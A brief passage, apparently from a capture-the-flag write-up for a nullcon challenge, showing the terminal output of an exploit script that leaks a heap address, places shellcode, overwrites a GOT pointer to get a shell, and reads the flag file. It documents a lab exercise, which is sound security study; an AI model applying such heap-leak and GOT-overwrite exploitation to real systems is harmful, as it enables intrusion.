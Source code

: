 ```
bas@tritonal:~/tmp/nullcon/exp400$ python sploit.py 
[+] Trying to leaking heap address...
[+] Leaked heap address at 0x85cf1d0
[+] Shellcode at 0x85cf100
[+] Sending new notes to overwrite got pointer...
[+] Enjoy your shell!
id
/bin//sh: 1: id: not found
cat flag.txt
flag{y0u_br0k3_1n70_5h3rl0ck_m1ndp4l4c3}
```

The flag was `flag{y0u_br0k3_1n70_5h3rl0ck_m1ndp4l4c3}`.

